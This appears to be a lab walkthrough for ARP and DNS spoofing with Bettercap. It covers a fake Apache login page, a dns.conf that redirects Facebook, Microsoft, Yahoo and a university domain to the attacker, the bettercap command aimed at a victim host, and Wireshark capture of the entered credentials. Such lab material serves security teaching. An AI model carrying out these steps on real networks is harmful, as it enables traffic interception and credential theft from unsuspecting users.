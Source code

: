
##    Bettercap - ARP/DNS Spoofing

https://www.youtube.com/watch?v=58_TeuJ8tPU

Network Configuration
```
--------------------         ------------------
|                  |---------|     Attacker   |
|      Router      |         |  192.168.1.10  |
|                  |         ------------------
|                  |         ------------------
|   192.168.1.1    |---------|     Victim     |
|                  |         |  192.168.1.15  |
--------------------         ------------------
```
1. Install Bettercap
```
# apt-get install build-essential ruby-dev libpcap-dev
# gem install bettercap
```
2. Create a simple 'Login Form' page

https://www.w3schools.com/howto/tryit.asp?filename=tryhow_css_login_form
```
# mv /var/www/html/index.html /var/www/html/index.html.old
# gedit /var/www/html/index.html
```
- Save this file

3. Start the Apache Web Server 

- These commands will start our web server on our Kali machine hosting the fake login page.
```
# service apache2 stop
# service apache2 start
```
- Testing the web server on our Kali machine...

Go to Web browser > http://localhost

4. Create the `hosts` file to perform DNS spoofing

- In a real life scenario, an attacker would redirect traffic to their own machine for data sniffing. In this case, we set up a simple login page, then we use Bettercap to spoof DNS record so that when the victim visits his favorite webpages, he will be redirected to the attacker machine instead. This will probably fool the user into entering their credentials.

- We need to create a `hosts` file which is responsible for redirecting specific DNS requests.
```
# gedit dns.conf
```
- Then add some lines as follows:
```
local .*ais\.ac\.nz
local .*facebook\.com
local .*microsoft\.com
local .*yahoo\.com
```
- Save this file

5. Using Bettercap to conduct DNS Spoofing

- Usage:
```
# sudo bettercap -I ethx -X --gateway GATEWAY --target TARGET --dns HOSTS_FILE
```
- Firstly for testing purpose, we need to clear the ARP cache on Kali machine
```
# ip -s -s neigh flush all
# ip link set arp off dev eth0; ip link set arp on dev eth0
```
- Then check the ARP cache again on Kali machine
```
# arp -n
```
- Then, we uses this command to conduct DNS Spoofing (remember select the right network interface)
```
# sudo bettercap -I eth0 -X --gateway 192.168.1.1 --target 192.168.1.15 --dns dns.conf
```
6. Check your test results

- Now every time the victim visits the webpages you indicated in the "dns.conf" file, he will be redirected to the malicious webpage.

- For testing purpose, we also need to purge the DNS resolver cache + Web browsing history on Victim machine
cmd> ipconfig /flushdns
IE / Firefox / Chrome > Clear Browsing Data

> Now it's time to check all my favorite websites 

- On Victim machine, go to AIS/Facebook/Microsoft websites

=> We can check the spoofed DNS records on the victim machine (Windows machine)
cmd> ipconfig /displaydns

=> We can also see the DNS records in Bettercap => ...Received request for 'xxxxx.xxx', sending spoofed reply 192.168.1.10...

- Then try to login using the fake webpage...
```
* Username: AIS_Username
* Password: AIS_Password
```
=> Check traffic sniffed using Wireshark > apply this filter string
```
ip.addr == 192.168.1.15 && http
```
